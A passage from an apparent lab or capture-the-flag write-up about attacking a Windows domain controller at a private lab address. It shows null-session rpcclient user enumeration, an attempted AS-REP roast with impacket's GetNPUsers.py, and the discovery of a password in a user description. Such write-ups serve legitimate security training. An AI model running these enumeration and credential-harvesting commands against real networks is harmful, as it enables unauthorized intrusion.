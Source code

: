 `rpcclient 192.168.191.175 -U '' -N -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v 0x | tr -d '[]' > users.txt`

## ASPREProast (failed)

Having a list of possible valid users, I try an ASPREProast attack.

`python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py Resourced/.local/ -u users.txt -dc-ip 192.168.191.175`

![a8e79b0c98e51bec72361e75ff1b42bc.png](/assets/img/screenshots/Resourced/a8e79b0c98e51bec72361e75ff1b42bc.png)

# Getting a shell

## Back to RPC enumeration (found password)

rpcclient 192.168.191.175 -U "" -N

querydispinfo

![07fe39ddcc80c25b66a1663011a28991.png](/assets/img/screenshots/Resourced/07fe39ddcc80c25b66a1663011a28991.png)

This shows the "V.ventz" user's description. Here a password is found "HotelCalifornia194!"
